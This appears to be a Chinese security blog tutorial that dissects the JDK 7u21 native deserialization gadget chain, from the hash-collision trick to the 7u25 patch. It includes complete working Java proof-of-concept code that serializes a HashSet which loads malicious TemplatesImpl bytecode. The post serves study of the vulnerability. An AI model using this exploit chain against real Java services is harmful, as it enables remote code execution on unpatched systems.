









## 介绍

原生反序列化就不需要依赖第三方jar包，目前已知的原生反序列化就是7u21和8u20的Gadget

## 影响版本

Java7u21原生链反序列化要求jdk版本低于等于7u21，我这里直接用的7u21

## 利用链分析

7u21的利用链核心在于`AnnotationInvocationhandler#equalsImpl()`

### AnnotationInvocationhandler#equalsImpl



这里接收一个对象var1，需要这个注解实例和对象本身的注解类型相等，但是不能是实例本身。随后进入for循环

这里很明显能看到一个invoke的反射调用，而var5就来自于getMemberMethods中的反射获取类方法getDeclaredMethods



这个方法会获取注解类型的所有成员方法数组，如果memberMethods为空则进行初始化（懒加载机制），使用 AccessController.doPrivileged 在特权模式上下文执行代码块

主要是通过调用getDeclaredMethods去获取当前注解的所有类方法并setAccessible设置权限。

也就是说，**equalsImpl相当于是将this.type的所有方法都遍历并执行了一遍**。那么，如果this.type是Templates接口，那就获取了Templates接口的所有方法。

如果需要走到`TemplatesImpl`链的话有两种方法，newTransformer方法（CC3）和getOutputProperties方法，但是getOutputProperties方法最终也会走向newTransformer方法，从而导致任意代码执行

```java
//newTransformer方法    
public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
//getOutputProperties方法
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

这里的话我们可以写个demo

```java
package SerializeChains.Chains7u21;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class Chains7u21 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        TemplatesImpl templates = new TemplatesImpl();

        //getTransletInstance()方法中的问题：反射改变类的属性_name
        setFieldValue(templates,"_name","a");

        //defineTransletClasses()方法中的问题：修改_bytecodes的值为恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        byte[] Foocode = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\Foo.class"));
        byte[][] codes = {code, Foocode};
        setFieldValue(templates, "_bytecodes", codes);

        //反射改变类的属性_tfactoury
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());


        HashMap<String, Object> hashMap = new HashMap<>();
        Class A = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = A.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Templates.class,hashMap);
        Method equalsImpl = A.getDeclaredMethod("equalsImpl", new Class[]{Object.class});
        equalsImpl.setAccessible(true);
        equalsImpl.invoke(o,templates);

    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



在invoke处打上断点，来到equalsImpl方法



可以看到此时我们的参数就是TemplatesImpl类，当前注解类型就是Templates，此时进入getMemberMethods中就会调用到Templates注解类下的成员方法

然后我们继续往前推，哪里会调用到equalsImpl呢？毕竟equalsImpl是个私有方法嘛

### AnnotationInvocationHandler#invoke

之前在CC1的时候就接触过AnnotationInvocationHandler类了，这是一个继承了InvocationHandler接口的动态代理类，不难知道，**如果调用被动态代理类实现的接口方法的话就会调用动态代理类的invoke()方法**



分别获取方法名和方法参数类型数组，当方法名等于“equals”，且仅有一个Object类型参数时，会调用到`equalsImpl`方法。

所以现在我们需要找到一个equals方法，这个方法需要满足只有一个参数且参数类型是Object.class

### HashSet#readObject

Set是一种数据结构，Set结构实际上是只会存储key而不会存储value的Map。而当存储的时候因为对象不重复，就会涉及到比较，那么就会用到equals来比较两个对象是否相等，最常见的Set实现类就是HashSet，HashSet实际上也是HashMap的一种

我们看一下HashSet的readObject方法

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

这里会new一个HashMap，HashSet中的元素会被当做key存放在hashmap中，随后调用map的put方法，这里的put方法就是HashMap的put方法了

### HashMap#put

我们看到HashMap#put方法

```java
    public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
            }
        }

        modCount++;
        addEntry(hash, key, value, i);
        return null;
    }
```

如果key是null就进入专门存放null的逻辑函数putForNullKey。

当key不为null时，计算key的hash并存为hash，并计算索引位置，`indexFor` 是 `HashMap` 内部的一个静态方法，它的作用是根据给定的哈希值（`h`）和数组长度（`length`），计算出该键值对在 `HashMap` 内部数组中的**索引位置**。

for循环中从该索引位置出发到数组结尾，比较**哈希值**是否相等，如果hash相等了才会进入后面的`||`或运算，也就能触发equals方法

所以`key`是proxy代理对象，k是我们恶意的`TemplatesImpl`对象，如果当前的map中有hash值相同的key，就会key.equals(k)，也就和之前的想法一样了

## Hash Magic

我们看看hash值是怎么来的

```java
    final int hash(Object k) {
        int h = 0;
        if (useAltHashing) {
            if (k instanceof String) {
                return sun.misc.Hashing.stringHash32((String) k);
            }
            h = hashSeed;
        }

        h ^= k.hashCode();

        // This function ensures that hashCodes that differ only by
        // constant multiples at each bit position have a bounded
        // number of collisions (approximately 8 at default load factor).
        h ^= (h >>> 20) ^ (h >>> 12);
        return h ^ (h >>> 7) ^ (h >>> 4);
    }
```

if语句不用看，我们直接看` h ^= k.hashCode();`所以判断两个对象的hash是否相等，仅仅取决于两个对象的hashCode()是否相等

因为templateslmpl并没有重写过hashCode方法，所以会调用父类Object的hashCode方法，而父类的hashCode方法是一个Native方法，每次运行都会发生变化，我们是无法预测的。

关于native修饰的hashCode()方法，可以参考这位师傅的文章：https://segmentfault.com/a/1190000040493992

### 为何Object#hashCode不行

我们看看Object类中的hashCode方法

```java
public native int hashCode();
```

因为所有的类都有一个父类Object，这意味着所有的类都会有一个hashCode方法，这个方法是由native修饰的，返回值是int整形值

在 **Java** 里，`native` 关键字用来修饰方法，表示这个方法的实现 **不是用 Java 写的**，而是用 **本地代码（通常是 C/C++）** 实现的。

什么意思呢？其实就是他的实现一般是用于在底层操作，在jdk源码中的`get_next_hash()` 方法会根据 hashCode 的取值来决定采用哪一种哈希值的生成策略。

那为什么Object类需要一个hashCode方法呢？在 Java 中，`hashCode()` 方法的主要作用就是为了配合哈希表使用的。

#### 哈希表和桶

哈希表，是一种通过键值对去访问的数据结构，他的特点在于在我们进行查找增删的时候都会通过哈希计算的方式将我们的输入转化成哈希值输出。在 Java 里最典型的哈希表实现就是 `HashMap`、`HashSet`，还有线程安全版本 `Hashtable`、`ConcurrentHashMap`。

拿HashMap举例：

在 `HashMap` 里，最核心的就是一个 **数组**，源码里叫 `table`。而数组中存放的就是一个个桶（bucket），也就是所谓的`table[i]`，桶里存放的不是直接的数据而是链表或红黑树(JDK 1.8引入)

例如这里的哈希表

```java
Node<K,V>[] table;  // 存放桶的数组

table[0]  -->  Node(key1, value1) -> Node(key2, value2) ...
table[1]  -->  null
table[2]  -->  Node(key3, value3)
...
```

从图中可以看出，每个桶可能存放：

- `null`（空桶）
- 单个节点（链表的头结点或树的根）
- 一个链表

#### 哈希冲突

然后我们再来考虑一个问题：如果哈希冲突的话，不同的键值对是怎么处理的？

因为这里环境是1.7的，所以就不说红黑树了

因为每个数组中会有很多桶，每个桶可能存放一个链表，当两个不同的key经过哈希函数计算后得到一个相同的hash值（落在同一个桶中），就会发生哈希冲突。

那么此时哈希对象的存储过程：

- 获取对象的哈希值`hash(key)`
- 先根据哈希值找到桶，如果不存在就直接新加一个桶去存放`table[i] == null`
- 如果哈希冲突的就再依次比较链表节点的 key 是否相等，如果key相等就更新value
- 如果key不相等就说明是不同的key了，直接挂在该链表的末尾

那么此时又该怎么做呢

回到分析中，所以我们需要转向proxy的hashCode方法

### proxy.hashCode()

当我们调用`proxy.hashCode()`时，会调用`AnnotationInvocationHandler#invoke`，进而调用到`AnnotationInvocationHandler#hashCodeImpl`



跟进看看这个方法

```java
    private int hashCodeImpl() {
        int var1 = 0;

        for(Map.Entry var3 : this.memberValues.entrySet()) {
            var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue());
        }

        return var1;
    }
```

遍历memberValues的每个键值对，计算每个`127*key.hashCode()^value.hashCode()`并求和

memberValues是构造函数传入的var2



DK7u21中使用了一个非常巧妙的方法：
\- 当memberValues中只有一个key和一个value时，该哈希简化成`(127 * key.hashCode()) ^ value.hashCode()`
\- 当`key.hashCode()`等于0时，**任何数异或0的结果仍是他本身**，所以该哈希简化成 `value.hashCode()`。
\- 当value就是TemplateImpl对象时，value.hashCode()就是TemplateImpl.hashCode()

**所以我们需要构造一个只包含一对key，value的map，key的hashCode()结果是0，而value就是TemplateImpl对象，这样的map在经过处理后就是templates.hashCode()，那么此时proxy的hashCode就等于templates的hashCode了**

**所以我们现在最终的问题就是找到一个字符串其hashCode为0，这里直接给出其中一个答案:`f5a5a608`，这也是ysoserial中用到的字符串。**

```java
hashMap.put("f5a5a608",templates);
```

当然也可以直接写个爆破脚本

```java
public class HashPoc {
    public static void main(String[] args) {
        for (long i = 0; i < 9999999999L; i++) {
            if (Long.toHexString(i).hashCode() == 0) {
                System.out.println(Long.toHexString(i));
            }
        }
    }
}
```

## 函数调用链

所以函数调用链就是

```java
HashSet#readObject()
    ->HashMap#put()
    	->TemplatesImpl#hashCode()	
    	->proxy#hashCode()->AnnotationInvocationHandler#invoke()->AnnotationInvocationHandler#hashCodeImpl()
    		->AnnotationInvocationHandler#invoke()
    			->AnnotationInvocationhandler#equalsImpl()
    				->TemplatesImpl 动态加载字节码
```

## 利用链构造

从上面的分析最终可以得出我们需要做的几件事

- 构造一个恶意TemplatesImpl对象
- 构造一个AnnotationInvocationHandler对象
- type属性是Templates类
- memberValues属性是一个map，这个map需要包含一对key和value，key是f5a5a608（即key.hashCode()==0），value为恶意TemplateImpl对象
- 对AnnotationInvocationHandler对象用proxy进行代理，生成proxy对象
- 构造一个HashSet对象，这个HashSet对象有两个元素先后add添加：`TemplateImpl`对象和`proxy`对象
- 将HashSet对象序列化

## POC编写

```java
package SerializeChains.Chains7u21;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Chains7u21 {
    //恶意类准备
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();

        //defineTransletClasses()方法中的问题：修改_bytecodes的值为恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        byte[] Foocode = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\Foo.class"));
        byte[][] codes = {code, Foocode};
        setFieldValue(templates, "_bytecodes", codes);

        //getTransletInstance()方法中的问题：反射改变类的属性_name
        setFieldValue(templates,"_name","a");

        //反射改变类的属性_tfactoury
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        return templates;
    }

    public static void main(String[] args) throws Exception {
        //创建恶意类对象
        TemplatesImpl templates = initEvilTemplates();

        HashMap<String, Object> hashMap = new HashMap<>();

        //先存入f5a5a608和恶意TemplatesImpl
        hashMap.put("f5a5a608",templates);

        //构造一个AnnotationInvocationHandler对象
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructorhandler.newInstance(Templates.class,hashMap);//将Type和memberValues存入

        //设置动态代理
        Templates proxy = (Templates) Proxy.newProxyInstance(Chains7u21.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);

        //Hashset放入两个对象
        HashSet set = new HashSet();
        set.add(proxy);
        set.add(templates);

        //序列化和反序列化
        serialize(set);
        unserialize("7u21Poc.txt");

    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("7u21Poc.txt"));
        oos.writeObject(object);
        oos.close();
    }
    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

## 漏洞修复

我们对比一下7u21和修复版本7u25





7u21在readObject函数中，对type的类型进行了一个检查，在不是AnnotationType的情况下会捕获异常并返回终止函数执行，但是没有做任何的处理。而在7u25中将return改为抛出异常，从而导致整个反序列化的过程终止。

整个修复方法看似很完美，但其实也会存在问题，那就是后面另一条原生链8u20的诞生

参考文章：

https://infernity.top/2025/03/06/JDK7u21%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BJDK7u21/yuansheng
